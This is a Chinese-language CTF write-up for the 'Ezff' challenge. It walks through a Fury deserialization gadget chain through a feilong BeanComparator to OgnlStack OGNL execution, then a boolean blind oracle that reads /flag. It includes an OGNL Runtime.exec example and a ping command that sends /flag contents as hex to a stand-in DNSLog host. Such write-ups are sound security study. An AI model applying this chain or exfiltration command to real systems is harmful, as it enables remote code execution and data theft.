# 5. Ezff

看到附件为一个Dockerfile和一个ezff.jar

Dockerfile的逐句理解：

```dockerfile
FROM bellsoft/liberica-openjdk-alpine:17
```

作用：指定基础镜像。

含义：使用 BellSoft 提供的 Liberica OpenJDK 17，基于 Alpine Linux。Alpine 体积小，能让最终镜像更轻量。

```dockerfile
WORKDIR /app
```

作用：设置容器内的工作目录。

含义：后续的COPY、RUN、ENTRYPOINT等命令都在/app目录下执行。如果/app不存在，会自动创建。

```dockerfile
COPY ezff.jar ezff.jar
```

作用：将文件从宿主机（构建上下文）复制到镜像中。

含义：把当前构建目录下的ezff.jar复制到镜像的/app/ezff.jar（因为工作目录已是/app）。这样就准备好了一个可执行的JAR包。

```dockerfile
EXPOSE 8888
```

作用：声明容器运行时监听的端口。

含义：告诉使用者该容器内的应用会使用8888 端口。这只是一个文档性声明，并不会自动映射宿主机端口，运行时仍需通过-p参数显式映射。

```dockerfile
ENTRYPOINT ["java", "-jar", "/app/ezff.jar"]
```

作用：定义容器启动时执行的命令。

含义：当容器启动时，会直接运行java -jar /app/ezff.jar，即启动这个Java应用。因为是ENTRYPOINT形式（而非CMD），后面docker run追加的参数会作为该 Java 程序的额外参数。

整体意思：

这个Dockerfile会构建出一个运行Java 17应用ezff.jar的镜像，该应用监听8888端口，启动容器后，就会自动执行java -jar /app/ezff.jar，从而把Java服务运行起来，并映射到 127.0.0.1:平台分配的端口 上了

接下来分析ezff.jar，解包后在IntelliJ IDEA（直接能看到反汇编）查看：

发现主服务类：com/app/Server.class



返回“ok”需要经过fury的反序列化

但payload有限制：

- 不能有"\u"和"\U"（hasUnicodeEscape()干的）

- 长度必须短（它是data的Base64解码后的字节数组，Base64后不能超过666字符）

接下来写个java构造一个data（payload为"hello"）尝尝咸淡

```java
import org.apache.fury.Fury;
import org.apache.fury.config.Language;

import java.util.Base64;

public class GenData {
    public static void main(String[] args) {
        Fury fury = Fury.builder()
                .withLanguage(Language.JAVA)
                .requireClassRegistration(false)
                .withRefTracking(true)
                .build();

        byte[] payload = fury.serialize("hello");
        String data = Base64.getEncoder().encodeToString(payload);

        System.out.println(data);
        System.out.println("length = " + data.length());
    }
}
```



经验证，构造的data（payload为"hello"）是合法的Fury序列化数据，会返回ok

接着看jar中的类：

com下的三个文件夹分别是app、feilong和google

feilong没听说过，去了解一下：

为简化Java开发而生的feilong工具库。它不是框架，而是一个帮助开发者减少样板代码、提升效率的Java通用工具集

用ai发现关键类：

```text
com/feilong/lib/beanutils/BeanComparator.class
```

```text
com/feilong/lib/excel/ognl/OgnlStack.class
```

其中BeanComparator 这类东西常见于 Java 反序列化链，它的作用是：比较两个对象时，根据指定属性去取值。



如果property != null，它会先从两个对象里取属性比较对象

```text
PropertyUtils.getProperty(o1, property)
```

```text
PropertyUtils.getProperty(o2, property)
```

如果属性名可控，就可能变成调用getter

而OgnlStack里的getValue(String expr)更危险，它会执行OGNL表达式



OGNL 是表达式语言，可以写类似：

```text
@java.lang.Runtime@getRuntime().exec("id")
```

高版本OGNL有黑名单，不能直接这么写，但可以考虑绕过

Java 反序列化里常用PriorityQueue（优先队列）触发比较器

因为PriorityQueue反序列化时会重新调整堆结构，内部会调用比较器：

```text
Fury.deserialize（入口：Fury 反序列化）
```

-> PriorityQueue.readObject（触发器：PriorityQueue）

-> BeanComparator.compare（中间跳板：BeanComparator）

```text
-> PropertyUtils.getProperty（this.property != null）
```

-> OgnlStack.getValue（最终 Sink：OgnlStack的getValue）

-> OGNL 表达式执行

理想情况下，我们想让BeanComparator取这个属性：

```text
value(恶意OGNL表达式)
```

这样就会调用ognlStack.getValue("恶意OGNL表达式")

但问题是OGNL表达式里本身会有很多括号，PropertyUtils解析value(...)时会被第一个")"截断，导致语法错误

据说可用Unicode escape绕过括号解析问题，但题目专门过滤了\u和\U

这里的突破点是：OgnlStack内部有表达式缓存：expressionsMap



表达式缓存Map：保存了“表达式字符串 -> 解析后的 AST 对象”



逻辑：如果expressionsMap里已经有expr对应的值，就直接取出来。

如果没有，就调用 Ognl.parseExpression(expr) 解析表达式，然后存进 expressionsMap

因此我们可以提前把恶意表达式解析成AST对象（Abstract Syntax Tree，即抽象语法树），放进缓存：

```text
expressionsMap.put("yyy", 恶意表达式AST)
```

然后让BeanComparator只调用：value(yyy)

这样外层属性解析没有复杂括号，真正执行时OgnlStack再从缓存里取出yyy对应的恶意表达式。

payload生成逻辑大概是：（最初命令执行尝试，不是最终提flag的链）

1. 创建OgnlStack

2. 构造恶意OGNL表达式

3. 反射调用getExpression，把表达式解析成AST

4. 把AST塞进expressionsMap，key为yyy

5. 创建 BeanComparator

6. 设置 BeanComparator.property = "value(yyy)"

7. 创建 PriorityQueue

8. 设置 comparator 为 BeanComparator

9. 队列元素放两个 OgnlStack

10. 用 Fury 序列化 PriorityQueue

11. Base64 编码

12. POST 到 /，参数名 data

发送：curl -X POST http://127.0.0.1:44023/ --data "data=生成出来的Base64"

这里有个细节：不能用—data-urlencode，因为服务端不会url decode



因为 Web 返回不直接显示命令结果，可使用Burp Collaborator或DNSLog做带外回显，比如：

```bash
ping $(xxd -p -c 256 /flag | cut -c1-50).your-dnslog.com
```

/flag 的内容会以十六进制形式出现在DNS请求里，最后本地解码即可

写了个GenPayload.java，结果发现靶机DNS请求完全不通，不返回：

```powershell
$cmd = ping n5yndx.dnslog.cn
```

```bash
java -cp ".;ezff.jar" GenPayload $cmd
```



得到data（base64格式）





DNSLog Platform没收到DNS请求，以上路径堵死了（费老大劲才读懂GenPayload。。。）

换一个思路：服务端正常只会返回ok和no，用布尔盲注

外层gadget不变，内层从GenPayload.java针对JShell exec的恶意OGNL，切换成针对File("/flag")的布尔判断OGNL（不含括号）：

文件存在性探测：exists?1:unknown

长度探测：

```text
toURI.toURL.content.readAllBytes.length>=<mid>?1:unknown
```

字节值探测：

```text
toURI.toURL.content.readAllBytes[<idx>]>=<mid>?1:unknown
```

之前恶意OGNL为了不被括号截断，用AST直接加到expressionMap里

这里换用布尔判断的话AST结构太复杂，data长度直接超了

但现在OGNL没有括号了，可以去除这个步骤（nicing！！！）

重新构造java脚本（EzffOracleGen.java）并构造python脚本（exploit_local.py）进行oracle字符二分盲打，得到flag：


